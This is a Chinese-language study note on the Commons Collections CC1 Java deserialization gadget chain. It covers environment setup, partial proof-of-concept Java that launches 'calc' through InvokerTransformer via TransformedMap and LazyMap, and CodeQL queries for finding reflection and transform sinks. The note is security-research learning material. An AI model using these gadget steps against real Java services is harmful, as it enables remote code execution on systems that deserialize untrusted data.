

- [ ] [CC链](https://github.com/Drun1baby/JavaSecurityLearning?tab=readme-ov-file#java-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80)
- [ ] [用TransformedMap编写真正的POC](https://wx.zsxq.com/group/2212251881/topic/548841845514184)
- [ ] [LazyMap链子](https://t.zsxq.com/iYCQd)
- [ ] https://java-chains.vulhub.org/zh/docs/guide

## 反序列化攻击思路

>入口类这里，我们需要一个 `readObject` 方法，结尾这里需要一个能够命令执行的方法。我们中间通过链子引导过去。所以我们的攻击一定是从尾部出发去寻找头的，流程图如下
## CC1
### 环境搭建
1. 8u65： [JDK8u65](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) （这里有问题，必须用英文就是把CN删掉才可以下载到正确版本的jdk）  
2. 项目结构 --> 模块修改  
3. 添加cc 1链依赖包  , `maven clean + maven install`
```pom.xml
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->  
<dependency>  
 <groupId>commons-collections</groupId>  
 <artifactId>commons-collections</artifactId>  
 <version>3.2.1</version>  
</dependency>
```
4. 修改 sun 包  :  [openJDK 8u65](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/af660750b2f4)  
	1. 下载zip  
	2. 解压jdk8中的src.zip , 将 `\jdk-af660750b2f4\src\share\classes\sun`放入 src中      
### 漏洞分析  --- TransformedMap


#### 寻找尾部Exec方法
- Transformer  `ctrl+alt+b`实现方法  
- InvokeTransformer 反射类任意调用   
```Java
public class Test {  
    public static void main(String[] args) throws IOException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {  
        Runtime.getRuntime().exec("calc");  
  
        //反射  
        Runtime r = Runtime.getRuntime();  
        //System.out.println(r);  
        Class c = r.getClass();  
        //System.out.println(c);  
        Method execMethod = c.getMethod("exec",String.class);  
        //System.out.println(execMethod);  
        execMethod.invoke(r,"calc");  
  
        // InvokeTransformer cc1链  
        // Transformer getInstance(String methodName, Class[] paramTypes, Object[] args)  
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);  
  
          
  
    }  
}
```
- Codeql脚本
```java
/**
 * 此文件是一个自动生成的 CodeQL 查询示例
 *
 * @name Hello world          // 查询名称
 * @kind problem              // 查询类型，表示这是一个"问题"查询（用于发现潜在问题）
 * @problem.severity warning  // 问题严重级别为“警告”
 * @id java/example/hello-world // 查询的唯一标识符
 */

// 导入 Java 语言的 CodeQL 标准库
import java

/*
 * 1. 定义一个调用 `Method.invoke` 的方法的类
 * 这个类继承自 `MethodCall`，用于捕获代码中对 `java.lang.reflect.Method.invoke` 的所有调用。
 */

class InvokeCall extends MethodCall {
  InvokeCall() {
    // 定义约束条件：当前方法调用的方法名必须是 "invoke"
    this.getMethod().getName() = "invoke" and
    // 并且，声明这个被调用方法的类型必须是 `java.lang.reflect.Method`
    this.getMethod().getDeclaringType().hasQualifiedName("java.lang.reflect", "Method")
  }
}

/**
 * 2. 定义一个名为 `isSerializable` 的谓词
 * 该谓词用于判断一个给定的引用类型（RefType）是否是可序列化的。
 *
 * @param rt 要检查的引用类型
 * @return 如果类型 `rt` 实现了 `java.io.Serializable` 接口，则返回 true
 */
predicate isSerializable(RefType rt) {
  // 存在性检查：是否存在一个超类型 `st`...
  exists(RefType st |
    // ...该超类型 `st` 是 `rt` 的父类或接口...
    rt.hasSupertype(st) and
    // ...并且这个超类型 `st` 的全限定名是 `java.io.Serializable`
    st.hasQualifiedName("java.io", "Serializable")
  )
}

// 主查询部分：从所有满足条件的 `InvokeCall` 中筛选数据
from InvokeCall ic
// 条件：仅选择那些其所在的可调用实体（方法或构造函数）的声明类型是可序列化类的调用
where isSerializable(ic.getEnclosingCallable().getDeclaringType())
// 选择并输出：每个匹配的 `InvokeCall` 实例及其所在类的类型信息
select ic, ic.getEnclosingCallable(), ic.getEnclosingCallable().getDeclaringType()

```

    

#### 寻找调用 `transform` 方法的不同名函数
1. 在transform方法 查找用法，找跟transform 不同名的函数
2. TransformedMap的checkSetValue方法调用了transfomer方法  看看`valueTransformer`是啥，最终在 `TransformedMap` 的构造函数中发现了 `valueTransformer`  因为 `TransformedMap` 的构造方法作用域是 `protected`，我们还需要去找一找谁调用了 `TransformedMap` 的构造方法。
3. 在decorate中找到了`TransformedMap`  
4. 写利用POC
```Java
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.IOException;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CheckSetValue {
    public static void main(String[] args) throws IOException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        //反射
        Runtime r = Runtime.getRuntime();
        Class c = r.getClass();

        // InvokeTransformer cc1链
        // Transformer getInstance(String methodName, Class[] paramTypes, Object[] args)
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        /* CheckSetValue(r) ----> valueTransformer.transform(r) ----> protected TransformedMap(xxxx,xxxx,valueTransformer)
        1. TransformedMap的构造方法作用域是 protected   ：protected Object checkSetValue
        2. 实例化TransformedMap要找 new TransformedMap：
            public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer)
        3. checkSetValue --是transform 不同名函数
         */
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer); //实例化TransformedMap对象
        Class<TransformedMap> transformedMapClass = TransformedMap.class; //得到TransformedMap的类
        Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class); //得到checkSetValue方法
        checkSetValueMethod.setAccessible(true);
        // 方法调用： method.invoke(方法实例对象, 方法参数值，多个参数值用","隔开);
        checkSetValueMethod.invoke(decorateMap,r);

    }

}

```

- 其余两个也是如此  
```java
Method transformValueMethod = transformedMapClass.getDeclaredMethod("transformValue", Object.class);  
transformValueMethod.setAccessible(true);  
transformValueMethod.invoke(decorateMap,r);  
  
Method transformKeyMethod = transformedMapClass.getDeclaredMethod("transformKey", Object.class);  
transformKeyMethod.setAccessible(true);  
transformKeyMethod.invoke(decorateMap,r);


```
- Codeql语句
```java
import java

// 调用transform方法
class TransformerCall extends MethodCall {
  TransformerCall() {
    this.getMethod().getName() = "transform" and
    this.getMethod()
        .getDeclaringType()
        .hasQualifiedName("org.apache.commons.collections", "Transformer") and
    exists(Method m |
      m = this.getEnclosingCallable() and
      m.getName() != "transform"
    )
  }
}

// 类可以被序列化
predicate isSerializable(RefType rt) {
  exists(RefType st |
    rt.hasSupertype(st) and
    st.hasQualifiedName("java.io", "Serializable")
  )
}

from TransformerCall tc
where isSerializable(tc.getEnclosingCallable().getDeclaringType())
select tc, tc.getEnclosingCallable(), tc.getEnclosingCallable().getDeclaringType(),
  tc.getMethod().getDeclaringType().getQualifiedName()

```
  
```java
1. LazyMap --Get (DefaultedMap 同理)
// get(Object key) --> factory.transform(key) ---> protected LazyMap(Map map, Factory factory)  

Map decorateLazyMap = LazyMap.decorate(hashMap,invokerTransformer ); //实例化对象  
Class LazyMapClass =  decorateLazyMap.getClass();  //获取对象类  
Method getMethod = LazyMapClass.getDeclaredMethod("get",Object.class);  
getMethod.setAccessible(true);  
getMethod.invoke(decorateLazyMap,r);

2. TransformerPredicate -- evaluate
// evaluate(Object object) --> iTransformer.transform(object) --> public TransformerPredicate(Transformer transformer)

Predicate transforPredicate = new TransformerPredicate(invokerTransformer);  
Class transformedMapClass = TransformerPredicate.class;  
Method m = transformedMapClass.getMethod("evaluate",Object.class);  
m.setAccessible(true);  
m.invoke(transforPredicate, r);

........
```

#### 寻找checkSetValue调用处

```java
import java

class TransformerCall extends MethodCall {
  TransformerCall() {
    this.getMethod().getName() = "checkSetValue" and
    this.getMethod()
        .getDeclaringType()
        .hasQualifiedName("org.apache.commons.collections.map", "AbstractInputCheckedMapDecorator")
  }
}

from TransformerCall tc
select tc, tc.getEnclosingCallable(), tc.getEnclosingCallable().getDeclaringType()
```
  

### 参考
- https://drun1baby.top/2022/06/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8701-CC1%E9%93%BE/
- https://www.bilibili.com/video/BV1no4y1U7E1/?spm_id_from=333.1387.upload.video_card.click&vd_source=5f4f31ca939fbba01cb0ba2f7b60b9e3


### Codeql
- https://xz.aliyun.com/news/18578
#### 环境

1. https://archive.apache.org/dist/commons/collections/source/commons-collections-3.2.1-src.zip、
2. Jdk数据库构建： https://github.com/h3h3qaq/JDK-CodeQLDB-Builder
3. Maven3.2.5： https://archive.apache.org/dist/maven/maven-3/3.2.5/binaries/
4. `codeql database create cc1 --language=java --source-root . --command="mvn clean compile"`

## Sink

1. SInk：寻找一个方法
	1. 调用了method.invoke
	2. 该方法所在类可以被反序列化
```java
import java

/*
 * 1. 定义一个调用 `Method.invoke` 的方法的类
 * 这个类继承自 `MethodCall`，用于捕获代码中对 `java.lang.reflect.Method.invoke` 的所有调用。
 */

class InvokeCall extends MethodCall {
  InvokeCall() {
    // 定义约束条件：当前方法调用的方法名必须是 "invoke"
    this.getMethod().getName() = "invoke" and
    // 并且，声明这个被调用方法的类型必须是 `java.lang.reflect.Method`
    this.getMethod().getDeclaringType().hasQualifiedName("java.lang.reflect", "Method")
  }
}

/**
 * 2. 定义一个名为 `isSerializable` 的谓词
 * 该谓词用于判断一个给定的引用类型（RefType）是否是可序列化的。
 *
 * @param rt 要检查的引用类型
 * @return 如果类型 `rt` 实现了 `java.io.Serializable` 接口，则返回 true
 */
predicate isSerializable(RefType rt) {
  // 存在性检查：是否存在一个超类型 `st`...
  exists(RefType st |
    // ...该超类型 `st` 是 `rt` 的父类或接口...
    rt.hasSupertype(st) and
    // ...并且这个超类型 `st` 的全限定名是 `java.io.Serializable`
    st.hasQualifiedName("java.io", "Serializable")
  )
}

// 主查询部分：从所有满足条件的 `InvokeCall` 中筛选数据
from InvokeCall ic
// 条件：仅选择那些其所在的可调用实体（方法或构造函数）的声明类型是可序列化类的调用
where isSerializable(ic.getEnclosingCallable().getDeclaringType())
// 选择并输出：每个匹配的 `InvokeCall` 实例及其所在类的类型信息
select ic, "在可序列化类中发现潜在的反射调用风险", ic.getEnclosingCallable().getDeclaringType()

```


跨库分析

